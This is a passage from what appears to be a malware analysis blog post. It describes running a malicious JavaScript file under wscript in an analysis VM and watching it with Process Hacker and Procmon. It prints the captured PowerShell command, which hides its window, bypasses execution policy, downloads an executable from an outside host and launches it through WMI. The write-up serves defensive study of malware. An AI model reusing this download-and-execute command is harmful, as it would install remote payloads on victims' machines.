      * In `gpedit`, Computer Configuration -> Administrative Templates -> System -> Audit Process Creation
     * Enable Include command line in process creation events ![1530926065440](https://0xdfimages.gitlab.io/img/1530926065440.png)

#### Start Other Tools

In addition to the logging, I started a couple other tools to capture what was
going on:

  * Process Hacker
  * Procmon

### Run

To run the malware, I tried two different things, both of which generated
pretty much the same result:

  * Double click on it
  * In a command terminal, `wscript 2bcd28a0723854c7ef229084d278af6e648c06de695018c070688f262f40e0a5.js`

### Results

#### Process Hacker

In Process Hacker, the `wscript` process starts and ends too quickly to be
noticed, but we do see a new `cmd.exe` start and then a child
`powershell.exe`:

![1530929386602](https://0xdfimages.gitlab.io/img/1530929386602.png)

Double clicking on that powershell process, we can grab the command line:

![1530929434943](https://0xdfimages.gitlab.io/img/1530929434943.png)

    
    
    powershell.exe  -noprofile -windowstyle hidden  -executionpolicy bypass (new-object system.net.webclient).downloadfile('http://gostat.dhl-tcp.com/page818.php','C:\Users\REM\AppData\Local\TempoUE18.EXE'); Invoke-WmIMethoD -ClAsS WiN32_PrOcess -NAmE CrEAte -ArgUmentLisT 'C:\Users\REM\AppData\Local\TempoUE18.Exe'
    

I suspect that had the network connection on my analysis vm been up, and the
c2 been up, this would have opened and closed too fast to observe in Process
Hacker, but since the connection kept trying and timing out, we got extra time
to watch. After less than 15 seconds, the `cmd` and `powershell` processes
die.

#### Process Monitor (ProcMon)

To see what really happened, we’ll turn to ProcMon. This tool has a habit of
showing so much information it’s not useful. But if you filter down correctly,
you can learn a lot.
